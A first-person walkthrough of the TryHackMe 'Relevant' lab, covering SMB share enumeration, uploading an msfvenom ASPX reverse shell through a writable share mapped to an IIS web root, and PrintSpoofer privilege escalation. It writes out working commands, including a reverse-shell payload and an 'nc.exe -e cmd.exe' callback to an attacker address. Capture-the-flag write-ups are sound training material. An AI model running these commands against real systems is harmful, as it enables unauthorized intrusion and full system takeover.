# **TryHackMe: Relevant – Room Walkthrough**

This room covers identifying non-standard writable SMB network shares, linking the share path to an active IIS web root directory to achieve Remote Code Execution (RCE), and leveraging service account privileges to execute a token impersonation attack via PrintSpoofer.

---

## **1. Scanning & Service Discovery**

I started off by running an aggressive `nmap` scan to see exactly which ports and services were exposed on the target system.

```bash
nmap -sV -A -vv 10.49.140.79
```

**Key Open Ports:**

- **Port 80/tcp:** Microsoft IIS httpd 10.0
- **Port 135/tcp:** Microsoft Windows RPC
- **Port 139/tcp / 445/tcp:** Microsoft Windows SMB (Windows Server 2016 Standard)
- **Port 3389/tcp:** Microsoft Terminal Services (RDP)
- **Port 49663/tcp:** Microsoft IIS httpd 10.0 (High-port web server)

---

## **2. SMB Share Enumeration & Web Directory Mapping**

Since SMB was open, I used `smbclient` to map out available network shares anonymously:

```bash
smbclient -L //10.49.140.79/
```



The server listed the standard administrative folders alongside a custom-created hidden disk share named **`nt4wrksv`**.

I connected directly to the `nt4wrksv` share to explore its contents:

```bash
smbclient //10.49.140.79/nt4wrksv
```

Inside the share, I found one interesting file:

`passwords.txt` – A text file containing a couple of Base64-encoded usernames and password strings.





To determine if this file share was linked directly to one of the active IIS web servers, I verified if I could access `hello.txt` directly through my web browser on the high-port web server (port 49663):

```
<http://10.49.140.79:49663/nt4wrksv/hello.txt>
```

The page rendered the text successfully, confirming that **anything uploaded to the SMB share can be executed directly via the web root path**.



---

## **3. Gaining an Initial Foothold (ASPX Reverse Shell)**

Since the target machine is running a modern Windows Server with IIS 10.0, it natively executes [ASP.NET](http://asp.net/) application code. I generated a custom payload executable shell file using `msfvenom`:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.134.142 LPORT=4444 -f aspx > shell.aspx
```

I uploaded `shell.aspx` directly into the remote directory through my active anonymous `smbclient` session.



Next, I opened a local terminal listener on my attacker machine to catch the incoming connection:

```bash
rlwrap nc -lvnp 4444
```

To execute the payload script, I browsed straight to the uploaded file's web URL path layout:

```
<http://10.49.140.79:49663/nt4wrksv/shell.aspx>
```

The payload triggered perfectly, dropping an interactive command-line shell straight back to my netcat handler under the service account context wrapper:
`iis apppool\\defaultapppool`



I explored the user space, navigated straight over to user Bob's desktop folder path, and cleanly read out `user.txt`.



---

## **4. Privilege Escalation to NT AUTHORITY\SYSTEM**

To map out potential elevation paths from the restricted IIS application pool account context, I inspected my current account privilege tokens:

```bash
whoami /priv
```



The output scan immediately flagged that **`SeImpersonatePrivilege`** was actively **Enabled**.

This specific security token permission allows a process to impersonate a client after successful authentication. Since the host platform is running Windows Server 2016 Build 14393, it is highly vulnerable to a local privilege escalation exploit named **PrintSpoofer**.



I transferred both `PrintSpoofer.exe` and a copy of `nc.exe` directly onto the victim machine's writable temporary path.

Using the PrintSpoofer utility tool execution engine, I forced the local system Spooler service to authenticate against a named pipe managed by my terminal session, grabbing an elevated thread context to run an administrative netcat shell on port 4545:

```bash
PrintSpoofer.exe -c "nc.exe -e cmd.exe 192.168.134.142 4545"
```



The spoofing utility bypassed the local authorization layout, created the process under administrative security parameters, and handed back a high-privilege shell execution handle:

```
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

I opened up my terminal tracking listener window on port 4545, caught the incoming shell callback stream, and confirmed my new access status:
`nt authority\\system`



Finally, I changed directories over to the Administrator's desktop partition loop and dumped out the contents of the final target root configuration file flag:

```bash
type C:\\Users\\Administrator\\Desktop\\root.txt
```

Room completed!

